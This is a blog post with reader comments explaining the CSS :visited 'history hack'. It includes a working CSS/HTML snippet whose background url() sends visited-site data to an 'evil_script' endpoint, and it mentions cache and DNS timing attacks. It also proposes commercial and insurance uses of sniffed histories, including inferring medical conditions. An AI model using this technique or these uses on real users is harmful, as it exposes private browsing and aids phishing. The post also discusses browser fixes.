

CSS History Hack
What if I told you that in the time it takes you to read this sentence I could have stolen a large portion of your browsers history? whhaaaaaat? While open access to the browsers history is not possible for obvious security reasons, you can still query it.
How to
The technique is so very simple. Its all down to the browsers implementation of the visited pseudo class. Your browser is nice enough to tell you (and any site you are on) what URLs you have visited.

Here’s a basic example:
a span {
display: none;
}
:visited span {
color: #f00;
display: block;
}
#i0:visited span {
background: url(evil_script?site=google.com&other=[user data]);
}
#i1:visited span {
background: url(evil_script?site=bing.com&other=[user data]);
}
#i2:visited span {
background: url(evil_script?site=yahoo.com&other=[user data]);
}
<a id="i0" href="http://www.google.com">http://www.google.com
<span>sending data....</span>
</a>
<a id="i1" href="http://www.bing.com">http://www.bing.com
<span>sending data....<span>
</a>
<a id="i2" href="http://www.yahoo.com">http://www.yahoo.com
<span>sending data....</span>
</a>

If any of the URLs have been visited, your browser will display the child span and load the background image (evil_script) sending information back to a server somewhere.
You can use this technique in lots of different ways, the most common is to set a visited link colour and have javascript detect the colour of the links. Note however that the example I used above will still work with javascript off, making it particularly evasive!
Whattheinternetknowsaboutyou.com
Yes, you can’t just download someones entire history, but this still can be quite powerful. Javascripts have been written that check over a million links a minute. JS versions can be very fast because the browser doesn’t actually have to render the link elements, you can simply create an element, check it, and disregard it. whattheinternetknowsaboutyou.com have taken this to extremes. They have a massive database of URLs gathered via top sites lists like Quantcast top 1 million sites and monitoring RSS feeds amongst other methods. They probe your history starting off by checking homepages or genres, then when they get a hit they start querying deeplinks.
Applications
Knowing a users browsing history before they land on your site would allow you optimize your page to suit their needs better, thus improving your overall conversion. You could do simple things like only displaying social bookmark sites that you know the user already uses, or sneakier things like changing your offering when you know the user has been on one of your competitors sites. You could go as far as monitoring how your competitors advertising is doing by checking page URLs that they have advertising on. Here’s an application that guesses your gender based on sniffing your history. Or, what if you ran an insurance website, you could determine whether the user has recently visited web sites relating to particular medical conditions.
The above scenarios, while still malicious, can actually improve a sites user experience. As you can imagine though, there is of course a darker side. Phishers could, and I’m sure do, create more relevant attacks. A phishing attack from a service that you actually use would be orders of magnitude more successful.
Quick, fix it
When discussing this hack with friends I found that they either have very strong feelings against it, relating it to the likes of Phorm, while others argue that this data is already available online for a price (hitwise clickstream).
Phorm, the advertising company that wants to pay your ISP to hand over information on which websites you visit.
Clickstream: (The user data ISPs do sell). Hitwise Clickstream reports on where traffic comes from and goes to for a specific website or industry.
The CSS history hack has been known to browser vendors since 2000, however it still hasn’t been patched. A possible reason maybe because the only true fix would be to remove the visited pseudo class behavior altogether. In the mean time, if you are worried about it, you can install the Firefox safe history extension.
More
While we are on the topic I thought I would mention a similar technique, just incase this one gets fixed and you start thinking your data is all safe again, (Not that is would be with ISPs selling it). Anyhow, Exploiting Web Caching, cache-based timing attacks work by messuring the time required to access a particular resource and deducing that it’s either in the users cache or not. This resource could be any cacheable file used by the target website. You could also use DNS caching to your advantage, by measuring the time required to look up a particular DNS address, a HTML page could determine whether or not a particular address appears in a users DNS cache.
Looks like the lads at Mozilla are on to you:
http://blog.mozilla.com/security/2010/03/31/plugging-the-css-history-leak/
Yea I noticed. This bug has been around for nearly 10 years, I actually did a double take when I read about the fix, it being the day before April fools and all that!
The thing is, this doesn’t really fix the problem, they made it a little more difficult at the expense of breaking some standard CSS rules.
yeah but this isn’t my porno browser so it’s ok.
good to know
Do you think it’s possible to use a CSS expression in IE to send evilsite.com data about visited links? I’m too busy at the moment to try, but just wondering if you think it’d be possible?
Hi Dan, there are lots of different ways this can work, but at the core their all based around the visited pseudo class. As long as you can detect a change on the the page based on a link being visited it’ll work. You could simple detect the colour change of links, you could detect a size change, or anything else really.